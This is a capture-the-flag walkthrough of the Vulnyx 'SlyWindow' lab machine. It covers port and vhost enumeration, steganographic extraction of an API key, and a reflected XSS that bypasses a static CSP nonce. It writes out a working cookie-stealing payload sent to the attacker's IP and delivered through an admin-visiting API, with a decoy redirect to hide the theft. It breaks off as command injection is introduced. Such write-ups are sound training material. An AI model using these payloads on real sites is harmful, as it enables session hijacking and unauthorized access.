Detailed step-by-step analysis of the SlyWindow (Vulnyx) machine, covering steganography techniques, XSS vulnerability exploitation, TOCTOU attack, privilege escalation, and library manipulation in Linux systems.

## Table of Contents

## Enumeration

### Port Scanning

We begin the enumeration phase by performing a port scan on the target machine, whose IP address is `10.0.2.11`.

```bash
nmap -p- -sCV -Pn -vvv -n 10.0.2.11 -oN nmap.txt
```

```text
# Nmap 7.94SVN scan initiated Thu Jul 31 21:35:50 2025 as: /usr/lib/nmap/nmap --privileged -p- -sCV -Pn -vvv -n -oN nmap.txt 10.0.2.11
Nmap scan report for 10.0.2.11
Host is up, received arp-response (0.000088s latency).
Scanned at 2025-07-31 21:35:50 CEST for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:d8:65:cf:d9:7f:21:e9:1b:1e:52:01:a2:79:e7:0e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFM0sytCCMmCQLsUyKqYcm+b/oeUR3op1iNVSBNyz/Wc6mHbe4324fkSNLZlfKj/4cNzsGxqGK+zbKbJ3uMCrl8=
|   256 56:08:db:eb:9c:89:3b:d0:d4:12:9e:de:9c:dc:6a:0f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMQq+hYRvRC1ebeu4dAMDEb+fuuv8VPi/HjBxRKIC8jh
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:5A:9C:A4 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul 31 21:35:58 2025 -- 1 IP address (1 host up) scanned in 7.80 seconds
```

We identify ports 22 (SSH) and 80 (HTTP) as open. Next, we use the whatweb tool to gather more information about the exposed web service.

### Web

```bash
whatweb -v 10.0.2.11
```

```text
WhatWeb report for http://10.0.2.11
Status    : 200 OK
Title     : <None>
IP        : 10.0.2.11
Country   : RESERVED, ZZ

Summary   : Apache[2.4.62], HTTPServer[Debian Linux][Apache/2.4.62 (Debian)]

Detected Plugins:
[ Apache ]
	The Apache HTTP Server Project is an effort to develop and 
	maintain an open-source HTTP server for modern operating 
	systems including UNIX and Windows NT. The goal of this 
	project is to provide a secure, efficient and extensible 
	server that provides HTTP services in sync with the current 
	HTTP standards. 

	Version      : 2.4.62 (from HTTP Server Header)
	Google Dorks: (3)
	Website     : http://httpd.apache.org/

[ HTTPServer ]
	HTTP server header string. This plugin also attempts to 
	identify the operating system from the server header. 

	OS           : Debian Linux
	String       : Apache/2.4.62 (Debian) (from server string)

HTTP Headers:
	HTTP/1.1 200 OK
	Date: Thu, 31 Jul 2025 19:43:38 GMT
	Server: Apache/2.4.62 (Debian)
	Last-Modified: Wed, 30 Jul 2025 17:13:37 GMT
	ETag: "1bb-63b28a5397240-gzip"
	Accept-Ranges: bytes
	Vary: Accept-Encoding
	Content-Encoding: gzip
	Content-Length: 301
	Connection: close
	Content-Type: text/html
```

When accessing the website, we observe that the main image is not displayed correctly. However, upon reviewing the source code, we identify that the `<base>` tag is configured with the domain `www.slywindow.nyx`.

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <base href="http://www.slywindow.nyx/" />
    <title></title>
  </head>
  <body></body>
</html>
```

We add the domains `www.slywindow.nyx` and `slywindow.nyx` to the `/etc/hosts` file to correctly resolve HTTP requests during the enumeration phase.

```bash
# /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
10.0.2.11       slywindow.nyx www.slywindow.nyx
```

We access the website again using the configured domain, where it displays an image of a rabbit using a hydraulic jack to expand a window.



### Subdomain Enumeration

We use `gobuster` in vhost mode to identify possible subdomains configured as additional virtualhosts on the server.

```bash
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u slywindow.nyx -t 30 --append-domain
```

```text
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://slywindow.nyx
[+] Method:          GET
[+] Threads:         30
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: api.slywindow.nyx Status: 403 [Size: 282]
Progress: 114442 / 114443 (100.00%)
===============================================================
Finished
===============================================================
```

We identify the subdomain `api.slywindow.nyx`, so we proceed to add it to the `/etc/hosts` file to ensure proper resolution during testing.

```bash
# /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
10.0.2.11       slywindow.nyx www.slywindow.nyx api.slywindow.nyx
```

When accessing the URL `http://api.slywindow.nyx`, the server responds with a `403 Forbidden` code, indicating that access is restricted.

### File and Endpoint Fuzzing

We perform fuzzing on both domains using `gobuster` to identify accessible endpoints or files.

On the domain `www.slywindow.nyx` we discover the resources `/admin.php` and `/index.html`.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://www.slywindow.nyx -x html,php --exclude-length 282
```

```text
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://www.slywindow.nyx
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          282
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 443]
/admin.php            (Status: 200) [Size: 4652]
Progress: 661677 / 661680 (100.00%)
===============================================================
Finished
===============================================================
```

On the domain `api.slywindow.nyx` we identify the endpoint `/api.php`.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://api.slywindow.nyx -x html,php --exclude-length 282
```

```text
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://api.slywindow.nyx
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          282
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/api.php              (Status: 405) [Size: 58]
Progress: 661677 / 661680 (100.00%)
===============================================================
Finished
===============================================================
```

## Intrusion

### Steganography

We download the rabbit image from the domain and analyze it with steghide to verify if it contains hidden information.

```bash
wget http://www.slywindow.nyx/small-window.jpg && steghide info small-window.jpg
```

```text
"small-window.jpg":
  format: jpeg
  capacity: 21.0 KB
Try to get information about embedded data? (y/n) y
Enter passphrase:
steghide: could not extract any data with that passphrase!
```

Using `steghide`, we confirm that the image contains 21.0 KB of hidden data, but it requires a passphrase to extract it. To obtain the passphrase, we use `stegseek` along with the `rockyou.txt` dictionary.

```bash
stegseek ./small-window.jpg /usr/share/wordlists/rockyou.txt
```

Within seconds, we manage to obtain the passphrase and proceed to extract the hidden file using said key.

```text
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "april"
[i] Original filename: "api-key.txt".
[i] Extracting to "small-window.jpg.out".
```

The extracted file contains an API-KEY, which will probably be necessary to interact with the subdomain `api.slywindow.nyx`.

```bash
$ cat small-window.jpg.out
API_KEY=d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79
```

### XSS on www.slywindow.nyx/admin.php

Through fuzzing we identify the existence of the `admin.php` page, which presents an access validation form.



In this form, we detect a reflected XSS vulnerability in the `error` parameter, which is used to display messages when validation fails.

```
http://www.slywindow.nyx/admin.php?error=%3Ch1%3EXSS%3C/h1%3E
```

However, JavaScript code execution is restricted by the Content Security Policy (CSP) policy configured in the headers, which limits direct XSS exploitation.

We proceed to gather additional information about the form page to identify possible alternative attack vectors.

```bash
whatweb http://www.slywindow.nyx/admin.php -v
```

```text
WhatWeb report for http://www.slywindow.nyx/admin.php
Status    : 200 OK
Title     : Admin Panel - Login
IP        : 10.0.2.11
Country   : RESERVED, ZZ

Summary   : Apache[2.4.62], Cookies[PHPSESSID], HTML5, HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], PasswordField[password], UncommonHeaders[content-security-policy,x-content-type-options,referrer-policy], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block]

Detected Plugins:
[ Apache ]
        The Apache HTTP Server Project is an effort to develop and
        maintain an open-source HTTP server for modern operating
        systems including UNIX and Windows NT. The goal of this
        project is to provide a secure, efficient and extensible
        server that provides HTTP services in sync with the current
        HTTP standards.

        Version      : 2.4.62 (from HTTP Server Header)
        Google Dorks: (3)
        Website     : http://httpd.apache.org/

[ Cookies ]
        Display the names of cookies in the HTTP headers. The
        values are not returned to save on space.

        String       : PHPSESSID

[ HTML5 ]
        HTML version 5, detected by the doctype declaration


[ HTTPServer ]
        HTTP server header string. This plugin also attempts to
        identify the operating system from the server header.

        OS           : Debian Linux
        String       : Apache/2.4.62 (Debian) (from server string)

[ PasswordField ]
        find password fields

        String       : password (from field name)

[ UncommonHeaders ]
        Uncommon HTTP server headers. The blacklist includes all
        the standard headers and many non standard but common ones.
        Interesting but fairly common headers should have their own
        plugins, eg. x-powered-by, server and x-aspnet-version.
        Info about headers can be found at www.http-stats.com

        String       : content-security-policy,x-content-type-options,referrer-policy (from headers)

[ X-Frame-Options ]
        This plugin retrieves the X-Frame-Options value from the
        HTTP header. - More Info:
        http://msdn.microsoft.com/en-us/library/cc288472%28VS.85%29.
        aspx

        String       : SAMEORIGIN

[ X-XSS-Protection ]
        This plugin retrieves the X-XSS-Protection value from the
        HTTP header. - More Info:
        http://msdn.microsoft.com/en-us/library/cc288472%28VS.85%29.
        aspx

        String       : 1; mode=block

HTTP Headers:
        HTTP/1.1 200 OK
        Date: Thu, 31 Jul 2025 22:31:12 GMT
        Server: Apache/2.4.62 (Debian)
        Set-Cookie: PHPSESSID=1df40qrfntea7bunpmvcgi5caq; path=/
        Expires: Thu, 19 Nov 1981 08:52:00 GMT
        Cache-Control: no-store, no-cache, must-revalidate
        Pragma: no-cache
        Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-aW1wcm92YWJsZS1ub25jZS0yMDI1LTA3LTMx'; style-src 'self' 'nonce-rOdPWdv1rvK5Wx8Y8ls/BA=='
        X-Frame-Options: SAMEORIGIN
        X-Content-Type-Options: nosniff
        Referrer-Policy: no-referrer
        X-XSS-Protection: 1; mode=block
        Vary: Accept-Encoding
        Content-Encoding: gzip
        Content-Length: 1206
        Connection: close
        Content-Type: text/html; charset=UTF-8
```

Several relevant aspects can be identified: the CSP headers are configured with a fairly restrictive policy.

```bash
        Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-aW1wcm92YWJsZS1ub25jZS0yMDI1LTA3LTMx'; style-src 'self' 'nonce-rOdPWdv1rvK5Wx8Y8ls/BA=='
        X-Frame-Options: SAMEORIGIN
        X-Content-Type-Options: nosniff
        Referrer-Policy: no-referrer
        X-XSS-Protection: 1; mode=block
```

Additionally, it can be observed that the cookie does not have the `HttpOnly` flag, which allows its access from the client side and represents an additional risk in case of XSS vulnerabilities.

If we carefully analyze the CSP headers, we can see that two `nonce` values are generated ([The CSP nonce Guide](https://content-security-policy.com/nonce/)), but one of them remains constant on each request, indicating that it is not being generated securely.

By executing the following command several times, it can be verified that the first `nonce` from the CSP headers repeats in all responses.

```bash
curl -I http://www.slywindow.nyx/admin.php
```

```
HTTP/1.1 200 OK
Date: Thu, 31 Jul 2025 22:42:53 GMT
Server: Apache/2.4.62 (Debian)
Set-Cookie: PHPSESSID=eab296le2dua5f7la9f6lcp3ti; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-aW1wcm92YWJsZS1ub25jZS0yMDI1LTA3LTMx'; style-src 'self' 'nonce-9trfCIHuZET9ZSwbFDTXmw=='
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
Referrer-Policy: no-referrer
X-XSS-Protection: 1; mode=block
Content-Type: text/html; charset=UTF-8
```

In the result of the previous request, we observe that the nonce `'nonce-aW1wcm92YWJsZS1ub25jZS0yMDI1LTA3LTMx'` appears in the CSP headers. If we inspect the source code of the `admin.php` page, we notice that this first nonce is not used in any `<script>` tag, while the second nonce is used in the `<style>` tag.



This poor implementation allows exploiting the CSP policy to execute arbitrary JavaScript through an XSS attack.

```text
http://www.slywindow.nyx/admin.php?error=<script nonce="aW1wcm92YWJsZS1ub25jZS0yMDI1LTA3LTMx">alert(1)</script>
```

This will be relevant in later phases.

### API Analysis on api.slywindow.nyx/api.php

When attempting to access the API endpoint directly via a GET request, the server responds indicating that the POST method should be used.

```bash
curl http://api.slywindow.nyx/api.php 2>/dev/null | jq
```

If we make the request using the POST method, the server responds indicating that it is necessary to provide an API KEY.

```bash
curl -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```



We proceed to use the API whose key we previously discovered hidden in the rabbit image.

```bash
curl -H 'X-API-Key: d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79' -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```

The server responds indicating that it requires a JSON object, so we proceed to send it:

```bash
curl -H 'X-API-Key: d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79' -d '{}' -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```



The server now explicitly requests the `message` and `url` fields in the request body, so we proceed to include them in the request.

```bash
curl -H 'X-API-Key: d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79' -d '{"message":"test","url":"http://www.google.com"}' -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```

The response message is especially relevant at this point:



The most relevant part of the message is that it indicates the administrator will immediately visit the provided URL.

### Administrator Cookie Exfiltration

To verify that the administrator actually visits the URLs provided through the API, we set up a listener with netcat on our attacking machine.

```bash
nc -lvp 80
```

and send a request to the API including a URL pointing to our attacking machine's IP (in this case, 10.0.2.7) from another terminal to check if the administrator accesses it.

```bash
curl -H 'X-API-Key: d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79' -d '{"message":"test","url":"http://10.0.2.7"}' -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```

After approximately 30 seconds, we receive an incoming request on our netcat listener, confirming that the administrator has accessed the provided URL.



It is confirmed that the administrator visits the URLs sent through the API, although they only do so once. Knowing that there is an XSS vulnerability at `http://www.slywindow.nyx/admin.php?message=`, and taking advantage of an insecure `nonce` in the CSP headers, we can send a malicious link to the administrator with the objective of stealing their cookie.

First, it is necessary to obtain again the current value of the insecure `nonce` from the headers, as it could have changed since the last time we captured it.

Next, we create an `index.html` file on our attacking machine that redirects to Google, simulating a legitimate action.

```bash
echo '<script>location.href="https://www.google.com";</script>' > index.html
```

Next, we set up a Python web server in the same folder where the `index.html` file that redirects to google.com is located, with the objective of camouflaging cookie exfiltration.

```bash
python3 -m http.server 80
```

Before attacking the administrator, we test cookie exfiltration on our own session. For this, we generate the malicious script and encode it in URL within the `?error=` parameter.

```javascript
<script nonce="aW1wcm92YWJsZS1ub25jZS0yMDI1LTA4LTAx">location.href='//10.0.2.7/?'+encodeURIComponent(document.cookie)</script>
```

We access the following URL from our browser; although visually it redirects to Google, our web server manages to capture the cookie from our own session, thus validating the exfiltration.

```text
http://www.slywindow.nyx/admin.php?error=%3Cscript%20nonce%3D%22aW1wcm92YWJsZS1ub25jZS0yMDI1LTA4LTAx%22%3Elocation.href%3D%27//10.0.2.7/%3F%27%2BencodeURIComponent%28document.cookie%29%3C%2Fscript%3E
```



With the malicious link ready, we proceed to use the API to send the URL to the administrator and thus attempt to exfiltrate their cookie from the page `http://www.slywindow.nyx/admin.php`.

```bash
curl -H 'X-API-Key: d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79' -d '{"message":"test","url":"http://www.slywindow.nyx/admin.php?error=%3Cscript%20nonce%3D%22aW1wcm92YWJsZS1ub25jZS0yMDI1LTA4LTAx%22%3Elocation.href%3D%27//10.0.2.7/%3F%27%2BencodeURIComponent%28document.cookie%29%3C%2Fscript%3E"}' -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```

In less than 30 seconds, our server receives the administrator's session cookie, confirming successful exfiltration.



We access the URL `http://www.slywindow.nyx/admin.php`, replace the session cookie in the browser with the administrator's previously exfiltrated cookie, and reload the page. This way, we gain access to the `Administration Panel`.



### Remote Execution

From the administration panel, it is possible to execute various predefined commands through a dropdown menu, which allows us to gather relevant information from the server. By analyzing the traffic with Burp Suite, we identify the request generated when using the `Find Files` functionality. Taking advantage of this functionality, we manage to achieve remote command execution (RCE) by injecting a malicious payload into the `search_location` parameter.

